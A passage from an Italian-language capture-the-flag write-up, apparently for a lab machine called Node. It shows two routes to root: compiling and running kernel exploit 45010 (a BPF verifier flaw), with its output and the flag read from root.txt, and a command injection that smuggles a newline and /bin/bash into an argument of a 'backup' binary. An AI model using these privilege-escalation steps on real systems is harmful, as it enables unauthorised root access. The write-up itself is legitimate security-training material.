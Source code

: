 non ci resta che compilarlo  ed eseguirlo

```bash
tom@node:/tmp$ gcc -o 45010 45010.c
tom@node:/tmp$ ./45010
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88002563a100
[*] Leaking sock struct from ffff88002f0d7800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880027e70780
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880027e70780
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(tom),1002(admin)
cat /root/root.txt
69b89412f7c64bcc159b823ac782a0eb
```

## COMMAND INJECT

Questo metodo sfrutta una vulnerabilità di command injection che ci darà una shell con privilegi di root.

La lista  caratteri non permessi  è piuttosto ampia, ma ne mancava uno che funzionerà per comandare avere una command inject nel sistema. 

Una nuova riga nel sistema funzionerà proprio come in uno script Bash, interrompendo i comandi. Posso provare a inserire una nuova riga, quindi /bin/bash per vedere se funzionerà. Lo inserirò inserendo un `'`, quindi premendo invio per ottenere una nuova riga, quindi inserendo /bin/bash e aggiungendo una nuova linea ' e premendo invio:

```bash
tom@node:/tmp$ backup -q "" '
> /bin/bash
> '

zip error: Nothing to do! (/tmp/.backup_2040240105)
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@node:/tmp# id
uid=0(root) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
root@node:/tmp#
```

